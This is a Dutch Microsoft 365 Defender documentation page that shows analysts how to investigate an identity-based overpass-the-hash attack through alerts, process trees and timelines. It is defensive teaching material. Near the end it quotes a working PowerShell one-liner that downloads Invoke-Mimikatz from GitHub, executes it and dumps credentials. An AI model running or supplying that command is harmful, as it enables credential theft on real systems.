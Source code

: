 ```yaml
---
title: Voorbeeld van een op identiteit gebaseerde aanval
description: Stap door een voorbeeldanalyse van een op identiteit gebaseerde aanval.
keywords: incidenten, waarschuwingen, onderzoeken, correlatie, aanval, machines, apparaten, gebruikers, identiteiten, identiteit, postvak, e-mail, 365, microsoft, m365, incidentrespons, cyberaanvallen
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 204530b8b4a87215053ddcb0434e40e45271da3d
ms.sourcegitcommit: 4fb1226d5875bf5b9b29252596855a6562cea9ae
ms.translationtype: MT
ms.contentlocale: nl-NL
ms.lasthandoff: 06/08/2021
ms.locfileid: "52841004"
---
```

# <a name="example-of-an-identity-based-attack"></a>Voorbeeld van een op identiteit gebaseerde aanval

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Van toepassing op:**
- Microsoft 365 Defender

Microsoft Defender voor identiteit kan helpen bij het opsporen van kwaadaardige pogingen om identiteiten in uw organisatie te compromitteerden. Omdat Defender for Identity is geïntegreerd met Microsoft 365 Defender, kunnen beveiligingsanalisten inzicht hebben in bedreigingen die afkomstig zijn van Defender voor identiteit, zoals mogelijke pogingen tot het verhogen van netlogon-bevoegdheden.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>De aanval analyseren in Microsoft Defender voor identiteit

Microsoft 365 Met Defender kunnen analisten waarschuwingen filteren op detectiebron op **het tabblad Waarschuwingen** van de pagina incidenten. In het volgende voorbeeld wordt de detectiebron gefilterd op **Defender voor identiteit.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Voorbeeld van het filteren van de detectiebron voor Defender voor identiteit":::

Als u **de waarschuwing Verdachte overpass-the-hash-aanval** selecteert, gaat u naar een pagina in Microsoft Cloud App Security met meer gedetailleerde informatie. U kunt altijd meer informatie over een  waarschuwing [of](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) aanval vinden door Meer informatie over dit type waarschuwing te selecteren voor een beschrijving van de aanval en suggesties voor herstel.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Voorbeeld van een waarschuwing voor een vermoedelijke viaduct-the-hash-aanval"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Dezelfde aanval onderzoeken in Microsoft Defender voor Eindpunt

Een analist kan ook Defender voor Eindpunt gebruiken voor meer informatie over de activiteit op een eindpunt. Selecteer het incident in de wachtrij voor incidenten en selecteer vervolgens het **tabblad Waarschuwingen.** Hier kunnen ze ook de detectiebron identificeren. Een detectiebron met het label EDR staat voor Endpoint Detection and Response, wat Defender voor Eindpunt is. Hier selecteert de analist een waarschuwing die is gedetecteerd door EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Voorbeeld van een eindpuntdetectie en -antwoord in Defender voor eindpunt"::: 

Op de waarschuwingspagina worden diverse relevante informatie weergegeven, zoals de naam van het beïnvloede apparaat, de gebruikersnaam, de status van automatisch onderzoek en de waarschuwingsgegevens. Het waarschuwingsverhaal toont een visuele weergave van de processtructuur. De processtructuur is een hiërarchische weergave van bovenliggende en onderliggende processen die zijn gerelateerd aan de waarschuwing.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Voorbeeld van een waarschuwingsprocesstructuur in Defender voor Eindpunt"::: 

Elk proces kan worden uitgebreid om aanvullende details weer te geven. Details die een analist kan zien, zijn de werkelijke opdrachten die zijn ingevoerd als onderdeel van een schadelijk script, IP-adressen voor uitgaande verbindingen en andere nuttige informatie.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Voorbeeld van procesdetails in Defender voor Eindpunt":::
 
Door In **tijdlijn bekijken te** selecteren, kan een analist nog verder inzoomen om de exacte tijd van het compromis te bepalen. 

Microsoft Defender voor Eindpunt kan veel schadelijke bestanden en scripts detecteren. Vanwege veel legitieme toepassingen voor uitgaande verbindingen, PowerShell- en opdrachtregelactiviteit, wordt bepaalde activiteit echter beschouwd als goedaardig totdat er een schadelijk bestand of activiteit wordt gemaakt. Daarom helpt het gebruik van de tijdlijn analisten om de waarschuwing in context te plaatsen met de omringende activiteit om de oorspronkelijke bron of tijd van de aanval te bepalen die anders wordt verborgen door veelgebruikte bestandssysteem- en gebruikersactiviteit. 

Hiervoor begint een analist op het moment van de waarschuwingsdetectie (rood) en schuift u terug in de tijd om te bepalen wanneer de oorspronkelijke activiteit die heeft geleid tot de schadelijke activiteit daadwerkelijk is gestart. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Voorbeeld van beginnen op het moment van de detectie van waarschuwingen"::: 

Het is belangrijk om algemene activiteiten te begrijpen en te onderscheiden, zoals Windows Update-verbindingen, Windows Activeringsverkeer voor vertrouwde software, andere veelvoorkomende verbindingen met Microsoft-sites, internetactiviteiten van derden, Microsoft Endpoint Configuration Manager-activiteit en andere goedaardige activiteiten van verdachte activiteiten. U kunt dit onder andere doen door tijdlijnfilters te gebruiken. Er zijn veel filters die specifieke activiteiten kunnen markeren terwijl de analist alles uitfiltert dat de analist niet wil weergeven. 

In de onderstaande afbeelding heeft de analist gefilterd om alleen netwerk- en procesgebeurtenissen weer te geven. Hierdoor kan de analist de netwerkverbindingen en -processen zien rond de gebeurtenis waarbij Kladblok verbinding heeft gemaakt met een IP-adres, dat we ook in de processtructuur hebben gezien. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Voorbeeld van hoe Kladblok is gebruikt om een schadelijke uitgaande verbinding te maken"::: 

In dit specifieke geval is Kladblok gebruikt om een schadelijke uitgaande verbinding te maken. Vaak gebruiken aanvallers echter gewoon iexplorer.exe verbinding maken om een schadelijke payload te downloaden, omdat iexplorer.exe gewoonlijk als normale webbrowseractiviteit worden beschouwd.

Een ander item dat u in de tijdlijn moet zoeken, is PowerShell-toepassingen voor uitgaande verbindingen. De analist zou zoeken naar succesvolle PowerShell-verbindingen met opdrachten, zoals gevolgd door een uitgaande verbinding met een website die een schadelijk bestand `IEX (New-Object Net.Webclient)` host. 

In het volgende voorbeeld is PowerShell gebruikt om Mimikatz van een website te downloaden en uit te voeren:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Een analist kan snel naar trefwoorden zoeken door het trefwoord in de zoekbalk te typen om alleen gebeurtenissen weer te geven die zijn gemaakt met PowerShell. 

## <a name="next-step"></a>Volgende stap

Bekijk het [pad voor phishingonderzoek.](first-incident-path-phishing.md)

## <a name="see-also"></a>Zie ook

- [Overzicht van incidenten](incidents-overview.md)
- [Incidenten beheren](manage-incidents.md)
- [Incidenten onderzoeken](investigate-incidents.md)
